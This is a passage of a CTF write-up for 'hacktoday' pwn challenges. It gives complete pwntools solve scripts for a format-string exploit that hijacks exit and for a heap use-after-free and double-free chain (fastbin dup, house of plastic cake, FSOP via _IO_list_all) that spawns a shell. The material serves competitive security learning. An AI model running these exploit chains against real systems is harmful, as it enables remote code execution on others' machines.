    payload = f"%{0x7a}c%{offset+4}$hhn%{(u16(value) + 0xff86) & 0xffff}c%{offset+5}$hn".encode().ljust(0x20, b"\x00") + p64(ret) + p64(target)
    sl(payload)

def write(target, value):
    for i in range(0, len(value), 2):
        write2bytes(target + i, value[i:i+2])

def exploit():
    global io
    io = initialize()
    offset = 8
    with log.progress("Overwrite ret to main + 1 and leak libc"), context.silent:
        stack = int(r(14),16)
        ret = stack - 0x18
        sl(f"%{0x7a}c%{offset+3}$hhn.%1$p".encode().ljust(24, b"\x00") + p64(ret)) #Overwrite
        ru("0x")

    leak("Stack", hex(stack))
    leak("Return Address", hex(ret))
    with log.progress("Calculating the libc and tls"), context.silent:
        libc_leak = int(r(12),16)
        libc.address = libc_leak - (libc.sym["_IO_2_1_stdin_"] +0x83)
        if args.DOCKER or args.REMOTE:
            tls = libc.address - 0x3000
        else:
            tls = libc.address + 0x30d000
        cookie = tls + 0x770

    leak("Libc leak", hex(libc_leak))
    leak("Libc base address", hex(libc.address))
    leak("tls", hex(tls))
    leak("cookie", hex(cookie))

    with log.progress("Overwrite cookie and initial + 24 to hijack exit"), context.silent:
        write(cookie, p64(0))
        write(libc.sym["initial"]+24, p64(libc.sym["system"] << 17) + p64(ns(libc, b"/bin/sh\0")))

    with log.progress("Overwrite ret to exit"), context.silent:
        ru("0x")
        stack = int(r(12),16)
        ret = stack - 0x18 # Updating the return address
        debug()
        sl(fmtstr_payload(offset, writes={ret:libc.sym["exit"] + 5}, write_size='short'))
    ru(b"\x7f")
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`hacktoday{apalah_soalnya_cuma_bisa_gini_doang}`

# Pwn - Testadalah

## Introduction 



## Source Code

There is no source code, but this is the result of ChatGPT beautifying the code from the decompiler

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <stdint.h>

static void *g_slots[10];

static unsigned int i(void) {
    unsigned char idx = 0;

    printf("i : ");
    if (scanf("%hhu", &idx) != 1) {
        _exit(1);
    }
    if (idx > 9) {
        _exit(1);
    }
    return (unsigned int)idx;
}

static unsigned char *a(void) {
    unsigned int idx = i();
    g_slots[idx] = malloc(0x40);
    if (!g_slots[idx]) {
        _exit(1);
    }

    ssize_t nread = read(0, g_slots[idx], 0x40);
    unsigned char *p = (unsigned char *)g_slots[idx] + nread - 1;
    *p = 0;
    return p;
}

static void __attribute__((noreturn)) b(const char *unused_fmt) {
    (void)unused_fmt;
    unsigned int idx = i();
    if (!g_slots[idx]) {
        _exit(1);
    }
    exit(0);
}

static void c() {
    unsigned int idx = i();
    free(g_slots[idx]);
}

static int d() {
    unsigned int idx = i();
    return printf("%s", (const char *)g_slots[idx]);
}

static int setup() {
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    return setvbuf(stderr, NULL, _IONBF, 0);
}

int main(int argc, char **argv, char **envp) {

    int choice = 0;

    for (;;) {
        for (;;) {
            printf("a - 1, b - 2, c - 3, d - 4: ");
            if (scanf("%d", &choice) != 1) {
                _exit(1);
            }
            if (choice != 4) break;
            d();
        }

        if (choice <= 4) {
            switch (choice) {
                case 3: 
                    c();      
                    break;
                case 1: 
                    a();      
                    break;
                case 2: 
                    b("%d");  
                    break; 
                default: break;
            }
        }
    }
}
```

## Summary

Leak heap with uaf and libc by getting fastbin move to smallbins using `scanf`, then create fake fp and use `house of plastic cake` to get `fastbin dup` to `_IO_list_all` where inputed our fake fp address. After that just call `exit` to fsop. 

## Solution

Given an `a.out` and a `Dockerfile`, I first grabbed libc and ld from the Dockerfile, then used pwninit to patch and strip the symbols. After that, I decompiled it and saw a menu in main.

```c
int main(int argc, char **argv, char **envp) {

    int choice = 0;

    for (;;) {
        for (;;) {
            printf("a - 1, b - 2, c - 3, d - 4: ");
            if (scanf("%d", &choice) != 1) {
                _exit(1);
            }
            if (choice != 4) break;
            d();
        }

        if (choice <= 4) {
            switch (choice) {
                case 3: 
                    c();      
                    break;
                case 1: 
                    a();      
                    break;
                case 2: 
                    b("%d");  
                    break; 
                default: break;
            }
        }
    }
}
```

Essentially, when providing menu input:
1. `malloc(0x40)` then requests index and reads 0x40.
2. Requests idx and calls `exit`.
3. `free(chunk[idx])` but doesn't null it, so it gets a double free.
4. displays the contents of idx.

So, to exploit this, we first leak the heap, then libc by using one of scanf unique features when we provide 1024 bytes of input, scanf will move the fastbin to smallbin.

```python
for i in range(9): 
    alloc(i, b"\x00")
for i in reversed(range(7)): 
    free(i)
free(7)
sla(": ", b"4".rjust(1024, b"0")) # Using scanf to move fastbin to smallbins
sla(": ", str(7).encode())
libc_leak = u64(ru('a -').ljust(8, b"\x00"))
libc.address = libc_leak - (libc.sym["main_arena"] + 160)
views(6)
heap_leak = u64(ru('a -').ljust(8, b"\x00")) << 12
heap = heap_leak & ~0xfff
```

After leaking libc, I created a fake fp that will be used when `exit`. The fake FP contains the following
[FSOP](https://niftic.ca/posts/fsop/#_io_wdoallocbuf43)

```python
def fsrop(fp=libc.sym._IO_2_1_stdout_, offset=0x18):
    fs = IO_FILE_plus_struct() 
    fs.flags = b" sh;".ljust(0x8,b"\x00") 
    fs._IO_read_end = fp 
    fs._lock = fp+0x100 
    fs._wide_data = fp - 0x10 
    fs.unknown2 = p64(0)*3 + p64(1) + p64(libc.sym.system) + p64(fp + 0x60) 
    fs.vtable = (libc.sym._IO_wfile_jumps + offset) - 0x18
    return bytes(fs)
```

Since the input is only 0x40, we skip 10 bytes.

```python
fp = heap + 0x2a0
payload = fsrop(fp)
alloc(0, payload[:0x40])
alloc(1, payload[0x50:0x50+0x40])
alloc(2, payload[0xa0:0xa0+0x40])
```
Next, I cleared the bins and performed a `house of plastic cake` operation, filling the tcache and then `fastbin dup`. The target is `_IO_list_all`, which we will fill with our fp, and then just call `exit`.

```python
alloc(7, p64(mangle(heap, libc.sym["_IO_list_all"])))
alloc(8, b"\x00")
alloc(8, b"\x00")
alloc(9, p64(fp)) # _IO_list_all = fp
menu(2) #exit
menu(0)
```




### Solve Script

```python

#!/usr/bin/env python3
from ctypes import CDLL
import time
from subprocess import Popen
from pwncli import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './a.out_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = elf.libc
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "103.174.115.12", 7000


gdbscript = '''
init-pwndbg
b *_IO_flush_all+226
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, aslr=False)
    else:
        return process([exe] + argv, aslr=False)

def debug():
    global gdbscript, pid
    if not args.REMOTE and not args.GDB:
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:
            gdbscript = f'''
            init-pwndbg
            set sysroot /proc/{pid}/root
            c
            '''.format(**locals())        
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
        else:
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))


# =========================================================
#                         EXPLOITS
# =========================================================
# FSOP
def mangle(heap_addr, val):
    return (heap_addr >> 12) ^ val    

def fsrop(fp=libc.sym._IO_2_1_stdout_, offset=0x18):
    fs = IO_FILE_plus_struct()
    fs.flags = b"  sh;".ljust(0x8,b"\x00")   
    fs._IO_read_end = fp
    fs._lock = fp+0x100
    fs._wide_data = fp - 0x10
    fs.unknown2 = p64(0)*3 + p64(1) + p64(libc.sym.system) + p64(fp + 0x60)
    fs.vtable = (libc.sym._IO_wfile_jumps + offset) - 0x18
    return bytes(fs)

def menu(op):
    sla(": ", str(op).encode())

def alloc(idx, content):
    menu(1)
    sla(": ", str(idx).encode())
    s(content)

def free(idx):
    menu(3)
    sla(": ", str(idx).encode())

def view(idx):
    menu(4)
    sla(": ", str(idx).encode())

def exploit():
    global io
    io = initialize()
    with log.progress("Leak heap & libc"), context.silent:
        for i in range(9):
            alloc(i, b"\x00")
        for i in reversed(range(7)):
            free(i)
        free(7)
        sla(": ", b"4".rjust(1024, b"0"))  # Using scanf to move fastbin to smallbins
        sla(": ", str(7).encode())
        libc_leak = u64(ru('a -').ljust(8, b"\x00"))
        libc.address = libc_leak - (libc.sym["main_arena"] + 160)
        view(6)
        heap_leak = u64(ru('a -').ljust(8, b"\x00")) << 12
        heap = heap_leak & ~0xfff

    leak("Heap leak", hex(heap_leak))
    leak("Heap base address", hex(heap))
    leak("Libc leak", hex(libc_leak))
    leak("Libc base address", hex(libc.address))
    with log.progress("Prepare fake fp to FSOP"), context.silent:
        fp = heap + 0x2a0
        payload = fsrop(fp)
        alloc(0, payload[:0x40])
        alloc(1, payload[0x50:0x50+0x40])
        alloc(2, payload[0xa0:0xa0+0x40])

    with log.progress("Clean the bins"), context.silent:
        for i in range(8):
            alloc(i, b"\x00")

    with log.progress("House of plastic cake"), context.silent:
        for i in reversed(range(7)):
            free(i)
        # Fastbin dup
        free(7) # Victim
        free(8)
        free(7) # Double free
        for i in range(7):
            alloc(i, b"\x00")

        alloc(7, p64(mangle(heap, libc.sym["_IO_list_all"])))
        alloc(8, b"\x00")
        alloc(8, b"\x00")
        alloc(9, p64(fp)) # _IO_list_all = fp
        menu(2) #exit
        debug()
        menu(0)
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`hacktoday{really_ezi_coy_testis_english_test_is_bang}`